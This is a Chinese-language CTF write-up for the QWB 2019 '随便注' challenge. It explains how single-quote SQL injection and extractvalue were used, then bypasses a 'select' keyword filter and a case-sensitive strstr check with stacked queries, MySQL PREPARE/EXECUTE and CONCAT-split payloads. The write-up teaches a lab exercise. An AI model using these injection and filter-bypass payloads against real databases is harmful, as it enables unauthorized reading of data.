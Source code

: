 ## [强网杯 2019]随便注 1 (预编译绕过)
![0btKAg.png](https://s1.ax1x.com/2020/10/16/0btKAg.png)
首先判断注入方式
![0btmB8.png](https://s1.ax1x.com/2020/10/16/0btmB8.png)
![0btMNQ.png](https://s1.ax1x.com/2020/10/16/0btMNQ.png)
单引号闭合
发现有过滤
![0bNSvq.png](https://s1.ax1x.com/2020/10/16/0bNSvq.png)
用`burp`测试一下
![0btBC9.png](https://s1.ax1x.com/2020/10/16/0btBC9.png)
发现过滤不少，但是`extractvalue`没有被过滤
![0btk9A.png](https://s1.ax1x.com/2020/10/16/0btk9A.png)
爆出数据库
但是想要读数据就必须用`select`，但是`select`又被过滤了
这时就要用到预编译的方式插入`select`
### 预编译简单了解
预编译的初衷是预防`SQL`注入，emmmmmm
![0bHhgH.jpg](https://s1.ax1x.com/2020/10/16/0bHhgH.jpg)
`SQL`预编译语句语法

~~~sql
//定义预编译语句
PREPARE stmt_name FROM preparable_stmt;
//执行预编译语句
EXECUTE stmt_name [USING @var_name [, @var_name] ...];
~~~
举例
~~~sql
prepare add1 from 'select (?+?)';

set @a=1;
set @b=2;

execute add1 using @a,@b;
~~~
![0bbrRg.png](https://s1.ax1x.com/2020/10/16/0bbrRg.png)
这里可以利用预编译和`concat`将`select`拼接
并且`concat`没有被过滤
经过测试，堆叠注入是可以利用的
![0bjMCV.png](https://s1.ax1x.com/2020/10/16/0bjMCV.png)
~~~payload
-1';
set @sql = CONCAT('se','lect * from `1919810931114514`;');
prepare stmt from @sql;
EXECUTE stmt;
#
~~~
![0bvLeH.png](https://s1.ax1x.com/2020/10/16/0bvLeH.png)
页面返回`strstr`进啊测到了`set`
而`strstr`函数是区分大小写的
![0bxoAs.png](https://s1.ax1x.com/2020/10/16/0bxoAs.png)
那么修改`payload`
~~~payload
-1';
set @sql = CONCAT('Se','lect * from `1919810931114514`;');
Prepare stmt from @sql;
EXECUTE stmt;
~~~